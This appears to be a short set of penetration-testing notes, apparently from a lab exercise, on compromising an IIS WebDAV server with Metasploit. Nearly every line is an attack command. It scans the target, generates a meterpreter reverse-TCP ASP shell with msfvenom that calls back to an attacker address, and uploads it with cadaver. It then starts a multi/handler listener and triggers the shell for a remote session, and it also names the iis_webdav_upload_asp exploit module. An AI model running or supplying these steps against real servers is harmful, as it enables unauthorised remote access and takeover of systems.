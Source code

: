#### Exploiting webdav with metasploit
After confirming the port and webdav service running 
- nmap -sV -p 80 --script=http-enum 10.2.30.223
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp >shell.asp [this will create a reverse asp shell in attacker current directory]
- now we use cadaver to upload this shell [ cadaver http://10.2.30.223 ]
- put /root/shell.asp
- now we go to browser http://10.2.30.223/webdav this will lists all the files in webdav.We can execute the files but before executing we will start msfconsole and multi handler
- service postgresql start
- use multi/handler
- set payload windows/meterpreter/reverse_tcp [ use the same payload which also used for generating msfvenom shell ]
- show options
- set LHOST and LPORT [ which host and port also used for generating shell]
- run
- now go to the browser and click the uplaoded shell.This will give meterpreter shell.

#### using msf module
- search iis upload
- use exploit/windows/iis/iis_webdav_upload_asp
- now we need to set username,password,host, port,path,payloads also

